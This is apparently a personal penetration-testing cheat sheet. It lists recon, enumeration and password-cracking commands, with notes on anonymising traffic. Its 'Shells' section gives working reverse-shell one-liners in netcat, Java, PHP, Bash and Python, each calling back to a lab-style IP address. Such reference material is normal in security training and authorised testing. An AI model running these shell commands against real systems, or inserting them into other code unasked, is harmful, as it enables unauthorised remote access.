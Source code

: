 # CheatSheet

## Planned ToDo's	

* write scripts for automating the repetitive tasks like:
  1. look for domain of the company
  2. look for subdomains of the domain 
  3. look for dns entries 
  4. use [Google Hacking](https://gist.github.com/sundowndev/283efaddbcf896ab405488330d1bbc06) for deeper recon
  5. generate a detailed report of all findings
  6. ...

* create a docker-based environment for pentesting/bug bounty hunting (find a way for running GUI based tools in docker) 	

## Useful Guides and Links

For Pentesting/BugBounty-Hunting there is a very detailed [map and guide](https://www.offensity.com/de/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/) of how to proceed.

Very useful BugBounty [CheatSheet](https://github.com/EdOverflow/bugbounty-cheatsheet) from EdOverflow

## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```
### Ruby
```ruby
ruby -run -e httpd . -p 8000
```
## [nmap](https://tools.kali.org/information-gathering/nmap)
```shell-script
nmap -sC -sV -oA nmap/openadmin 10.10.10.171
```
## [gobuster](https://tools.kali.org/web-applications/gobuster)
bruteforce websites to find directories and/or files
```bash
gobuster dir -u http://10.10.10.10/ -w /path/to/wordlist
```
##  [CeWL](https://tools.kali.org/password-attacks/cewl)
creates wordlist from website
```bash
cewl -d 2 -m 5 -w genwords.txt https://10.10.10.10
```
## [enum4linux](https://tools.kali.org/information-gathering/enum4linux)
enumerates Windows and Samba systems 

Ports to look for: 445, 139
```bash
enum4linux -U -o 10.10.10.10
```
## [goofile](https://tools.kali.org/information-gathering/goofile)
finding specific filetypes in domain
```bash
goofile -d kali.org -f pdf
```
## [searchsploit](https://www.exploit-db.com/searchsploit)
```bash
searchsploit tomcat
```
## [John The Ripper – JTR](https://tools.kali.org/password-attacks/john)

John the Ripper is different from tools like Hydra. Hydra does blind brute-forcing by trying username/password combinations on a service daemon like ftp server or telnet server. John however needs the hash first. So the greater challenge for a hacker is to first get the hash that is to be cracked. Now a days hashes are more easily crackable using free rainbow tables available online. Just go to one of the sites, submit the hash and if the hash is made of a common word, then the site would show the word almost instantly. Rainbow tables basically store common words and their hashes in a large database. Larger the database, more the words covered.
|Command                                                                 |Description                               |
|------------------------------------------------------------------------|------------------------------------------|
|john –wordlist=/usr/share/wordlists/rockyou.txt hash                    |JTR password cracking                     |
|john –format=descrypt –wordlist/usr/share/wordlists/rockyou.txt hash.txt|JTR forced descrypt cracking with wordlist|
|john –format=descrypt hash –show                                        |JTR forced descrypt brute force cracking  |

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat
```bash
nc -e /bin/sh 10.10.15.22 4000
```
#### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.15.22/4000;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
#### PHP
```php
php -r '$sock=fsockopen("10.10.15.22",4000);exec("/bin/sh -i <&3 >&3 2>&3");'
```
#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell
#### Python 
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
## Usefuls Scripts
### HEX Converter
#### Ascii to Hex
```bash
#!/bin/bash
echo $1 | tr -d “\n” | hexdump -e ‘16/1 “%02x “ “\n”‘
```
#### Hex to Ascii
```bash
#!/bin/bash
echo $1 | xxd -r -p
```
## Hide yourself
Interesting [Stack Exchange](https://security.stackexchange.com/questions/103792/is-using-vpn-tor-and-proxychains-together-more-secure) link
### [VPN]()
### [Proxy Chains](https://linuxhint.com/proxychains-tutorial/)
A Proxy is an instance between both communication partners. If you send a request to a server the proxy intercepts it and is forwarding this request to the server but is behaving like itself send the request so the server don't know about me. And the exact way back.

A Proxy Chain are multile Proxy Servers chained together so it is way more difficult to get to know the initial sender(client)
### [Tor](https://de.wikipedia.org/wiki/Tor_(Netzwerk))
Here is a nice [graphic](https://www.eff.org/pages/tor-and-https) on who sees what in Tor and HTTPS cases.

## [Shellcode Dis/Assembler](http://shell-storm.org/online/Online-Assembler-and-Disassembler/)


